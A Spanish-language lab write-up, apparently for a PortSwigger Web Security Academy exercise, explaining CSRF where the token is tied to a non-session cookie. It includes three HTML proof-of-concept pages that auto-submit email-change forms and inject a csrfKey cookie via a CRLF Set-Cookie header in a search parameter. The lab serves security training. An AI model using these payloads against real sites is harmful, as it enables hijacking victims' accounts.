 ![20250710015435.png](20250710015435.png)

En una variación de la vulnerabilidad anterior, algunas aplicaciones vinculan el token CSRF a una cookie, pero no a la misma cookie que se utiliza para rastrear las sesiones. Esto puede ocurrir fácilmente cuando una aplicación emplea dos frameworks diferentes, uno para el manejo de sesiones y otro para la protección CSRF, que no están integrados entre sí

Esta situación es más difícil de explotar, pero sigue siendo vulnerable. Si el sitio web contiene algún comportamiento que permita a un atacante establecer una cookie en el navegador de la víctima, entonces es posible realizar un ataque. El atacante puede iniciar sesión en la aplicación utilizando su propia cuenta, obtener un token válido y una cookie asociada, aprovechar el comportamiento de establecimiento de cookies para colocar su cookie en el navegador de la víctima, y alimentar su token a la víctima en su ataque CSRF.

El comportamiento de establecimiento de cookies ni siquiera necesita existir dentro de la misma aplicación web que la vulnerabilidad CSRF. Cualquier otra aplicación dentro del mismo dominio DNS general puede ser potencialmente aprovechada para establecer cookies en la aplicación que está siendo atacada, si la cookie que es controlada tiene el alcance adecuado. Por ejemplo, una función de establecimiento de cookies en staging.demo.normal-website.com podría ser aprovechada para colocar una cookie que es enviada a secure.normal-website.com.

## LAB:


![20250711010550.png](20250711010550.png)

Según lo explicado, un token CSRF y el csrf pueden estar vinculados, pero sin este no este asociado a la sesión este puede ser explotado.

Para entender mejor, interceptaremos la actualización de mail del usuario **wiener** :

![20250711020643.png](20250711020643.png)

Luego interceptaremos la actualización del usuario **carlos** y luego copiaremos el CSRF y el CSRF token de wiener para colocarlos en la solicitud del usuario carlos

![20250711020925.png](20250711020925.png)

Al enviar la solicitud observamos que este cambia el correo correctamente. Ahora vamos a crear la POC, intente de varias manera como se muestra a continuación.

```html
<html>
  <body>
    <form action="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/my-account/change-email" method="POST" id="csrfForm">
      <input type="hidden" name="email" value="test1@test.com">
      <input type="hidden" name="csrf" value="eJO0b82LEU6mztmLBWr41V0eF349ItQo">
    </form>

    <script>
      document.cookie = "csrfKey=j3E3r5Bkj1MZXPMrxNcwOHgFAyc0HNvQ; path=/";
      document.cookie = "session=CE8Dh6RwzqdMr5S3LKq9TJO4RVOBQKgK; path=/";
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>

```


```html
<html>
  <body>
    <form action="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/email/change" method="POST" id="csrfForm">
      <input type="hidden" name="csrf" value="nwA4aBrVat0amHXA9Z6nfo8coPU8JhWK"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>

    <!-- Fuerza el Set-Cookie a través de CRLF injection -->
    <iframe src="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" style="display:none;" onload="document.getElementById('csrfForm').submit();"></iframe>
  </body>
</html>

```

El que me funciono es con la etiqueta `<img>` 

```html
<html>
  <body>
    <form action="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@evil.net" />
      <input type="hidden" name="csrf" value="nkLhML9Nz1ihefZnq0yKU8fV625MFlKG" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=wfRbljtn6WqVVeXA38BXaepCIE2LHGjq%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

una vez creada la POC 

Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.
